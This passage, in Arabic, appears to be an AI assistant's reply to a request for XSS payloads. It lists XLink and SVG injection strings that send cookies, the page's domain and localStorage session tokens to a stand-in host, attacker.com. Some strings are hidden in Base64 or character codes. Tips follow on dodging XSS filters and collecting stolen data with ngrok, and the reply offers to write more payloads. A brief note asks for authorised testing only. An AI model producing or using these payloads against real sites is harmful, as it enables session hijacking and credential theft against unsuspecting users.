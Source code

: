 4. حقن XML باستخدام XLink:
- <root><a xlink:href="javascript:alert('XSS')">Click</a></root>: ينفذ تنبيهًا عند النقر.
- <root><a xlink:href="javascript:fetch('http://attacker.com/log?c='+document.cookie)">Click</a></root>: يرسل ملفات تعريف الارتباط.
- <root><element xlink:href="javascript:document.location='http://attacker.com'">Click</element></root>: يعيد توجيه المستخدم.
- <root><a xlink:href="javascript:new Image().src='http://attacker.com/log?d='+document.domain">Click</a></root>: يرسل النطاق.
- <root><a xlink:href="javascript:fetch('http://attacker.com/log', {method: 'POST', body: localStorage.getItem('token')})">Click</a></root>: يرسل رمز الجلسة.

5. حقن مع التعتيم:
- <svg><script>eval(atob('YWxlcnQoJ1hTUycp'))</script></svg>: يفك تشفير Base64 لتنفيذ تنبيه.
- <svg onload="eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))"></svg>: يفك تشفير Base64 ويرسل ملفات تعريف الارتباط.
- <svg><script>document['location']='http://attacker.com'</script></svg>: يستخدم صيغة غير قياسية.
- <svg><a xlink:href="javascript:alert(String.fromCharCode(88,83,83))"><text>Click</text></a></svg>: يستخدم رموز ASCII.
- <root><a xlink:href="javascript:eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))">Click</a></root>: يفك تشفير Base64 في XML.



---

**نصائح إضافية**:
- **اختبار توافق المتصفح**: تأكد من اختبار الحقن في متصفحات مختلفة (مثل Chrome، Firefox، Safari) لأن دعم SVG/XML قد يختلف.
- **إعداد الخادم**: استخدم خادمًا بسيطًا (مثل Python `http.server`) أو `ngrok` لتسجيل البيانات، وتأكد من دعم طلبات GET وPOST.
- **تجاوز الفلاتر**: جرب تغيير حالة الأحرف (مثل `<SVG>` بدلاً من `<svg>`)، استخدام أحداث غير شائعة، أو تعتيم الشيفرة لتجنب فلاتر XSS.
- **اختبار نقاط الإدخال**: ركز على نقاط مثل تحميل الملفات، حقول النصوص، وواجهات API التي تعالج SVG/XML.
- **الأدوات**: استخدم **Burp Suite** لمراقبة الطلبات، **XSStrike** لتوليد الحقن، أو **Selenium** لمحاكاة التفاعل مع الحقن.
- **السلامة**: اختبر فقط بإذن صريح (مثل برامج مكافآت الأخطاء) وتجنب إلحاق الضرر.

إذا كنت تريد شرح خطوة أخرى بنفس الأسلوب (مثل "Stored XSS Payloads" أو "Bypassing XSS Filters")، أو التركيز على سياق معين (مثل SVG في تطبيقات معينة)، أخبرني وسأقدم ردًا مخصصًا!
